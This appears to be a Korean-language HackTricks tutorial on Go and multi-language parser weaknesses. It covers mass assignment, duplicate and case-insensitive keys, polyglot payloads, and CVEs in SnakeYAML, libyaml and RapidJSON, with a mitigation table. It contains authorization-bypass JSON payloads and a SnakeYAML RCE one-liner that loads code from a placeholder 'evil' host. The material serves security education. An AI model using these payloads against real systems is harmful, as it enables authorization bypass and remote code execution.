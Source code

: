 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

다음 문제들은 Go JSON에서 발견되었지만 다른 언어에도 존재할 수 있습니다. 이러한 문제들은 [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/)에 공개되었습니다.

Go의 JSON, XML, YAML 파서는 일관성 부족과 안전하지 않은 기본 설정이 오래전부터 이어져 왔으며, 이는 **인증 우회**, **권한 상승**, 또는 **민감한 데이터 유출**에 악용될 수 있습니다.


### (Un)Marshaling Unexpected Data

목표는 공격자가 민감한 필드(예: `IsAdmin`, `Password`)를 읽거나 쓸 수 있도록 허용하는 구조체(struct)를 악용하는 것입니다.

- 예시 구조체:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- 일반적인 취약점

1. **태그 없음** (태그가 없으면 = 필드는 기본적으로 여전히 파싱됩니다):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **`-`의 잘못된 사용**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ 필드가 (un)marshaled 되는 것을 차단하는 올바른 방법:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### 파서 차이

목표는 서로 다른 파서가 동일한 페이로드를 다르게 해석하는 점을 이용해 authorization을 bypass하는 것입니다. 예:

- CVE-2017-12635: Apache CouchDB bypass via duplicate keys
- 2022: Zoom 0-click RCE via XML parser inconsistency
- GitLab 2025 SAML bypass via XML quirks


**1. 중복 필드:**
Go의 `encoding/json`는 **마지막** 필드를 취합니다.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
다른 파서(예: Java’s Jackson)는 **첫 번째 값**을 선택할 수 있습니다.

**2. 대소문자 구분 없음:**  
Go는 대소문자를 구분하지 않습니다:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Unicode 트릭도 통한다:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Cross-service mismatch:**
상상해보자:
- Proxy가 Go로 작성됨
- AuthZ service가 Python으로 작성됨

Attacker가 보냄:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python은 `UserAction`을 보고 허용한다
- Go는 `AdminAction`을 보고 실행한다


### 데이터 형식 혼동 (Polyglots)

목표는 포맷을 혼합(JSON/XML/YAML)하거나 파서 오류 시 fail open하는 시스템을 악용하는 것이다. 예:
- **CVE-2020-16250**: HashiCorp Vault는 STS가 XML 대신 JSON을 반환한 후 XML 파서로 JSON을 파싱했다.

공격자가 제어하는 항목:
- `Accept: application/json` 헤더
- JSON 본문의 일부 제어

Go의 XML 파서는 **어쨌든** 이를 파싱했고 주입된 신원을 신뢰했다.

- 제작된 payload:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
결과:
- **Go JSON** 파서: `Action_2` (대소문자 구분하지 않음 + 마지막 항목 우선)
- **YAML** 파서: `Action_1` (대소문자 구분)
- **XML** 파서: 문자열 내부의 `"Action_3"`을 파싱함

---

## 주목할 만한 파서 취약점 (2023-2025)

> 다음 공개적으로 악용 가능한 이슈들은 안전하지 않은 파싱이 다중 언어 문제라는 것을 보여준다 — 단지 Go만의 문제가 아니다.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* 영향 대상: `org.yaml:snakeyaml` < **2.0** (Spring-Boot, Jenkins 등에서 사용됨).
* 근본 원인: `new Constructor()`가 **임의의 Java 클래스**를 역직렬화하여 gadget 체인을 허용하며, 이는 원격 코드 실행으로 이어질 수 있음.
* 원라이너 PoC (취약한 호스트에서 계산기를 실행함):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* 수정 / 완화:
1. **≥2.0로 업그레이드** (`SafeLoader`를 기본으로 사용).
2. 구버전에서는 명시적으로 `new Yaml(new SafeConstructor())`를 사용하세요.

### libyaml Double-Free (CVE-2024-35325)

* 영향 받음: `libyaml` ≤0.2.5 (많은 언어 바인딩에서 활용되는 C 라이브러리).
* 문제: `yaml_event_delete()`를 두 번 호출하면 double-free가 발생하여 공격자가 DoS로 만들거나, 일부 시나리오에서는 heap exploitation으로 이어질 수 있습니다.
* 상태: Upstream에서 “API misuse”로 거부했지만, 리눅스 배포판들은 방어적으로 포인터를 null-free 처리하는 패치된 **0.2.6**을 배포했습니다.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* 영향 받음: Tencent **RapidJSON** `8269bc2` 커밋 이전 (<1.1.0-patch-22).
* 취약점: `GenericReader::ParseNumber()`에서 검증되지 않은 산술 연산으로 인해 공격자가 크게 벗어난 숫자 리터럴을 조작해 wrap-around를 발생시키고 heap을 손상시킬 수 있으며 — 결과 객체 그래프가 권한 결정에 사용될 경우 결국 privilege-escalation을 가능하게 합니다.

---

### 🔐 완화책 (업데이트됨)

| Risk                                | Fix / Recommendation                                      |
|-------------------------------------|------------------------------------------------------------|
| 알 수 없는 필드 (JSON)               | `decoder.DisallowUnknownFields()`                          |
| 중복 필드 (JSON)                     | ❌ stdlib에는 수정 없음 — 검증을 위해 [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) 사용 |
| 대소문자 무시 매칭 (Go)             | ❌ 수정 없음 — struct tag을 검증하고 입력을 사전 정규화(pre-canonicalize) |
| XML 불필요 데이터 / XXE              | 강화된 파서 사용 (`encoding/xml` + `DisallowDTD`)         |
| YAML 알 수 없는 키                   | `yaml.KnownFields(true)`                                   |
| **Unsafe YAML deserialization**     | SafeConstructor 사용 / SnakeYAML ≥2.0으로 업그레이드       |
| libyaml ≤0.2.5 double-free          | **0.2.6** 또는 배포판 패치 릴리스로 업그레이드             |
| RapidJSON <patched commit           | 최신 RapidJSON(≥July 2024)으로 컴파일                      |

## See also

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## 참고자료

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
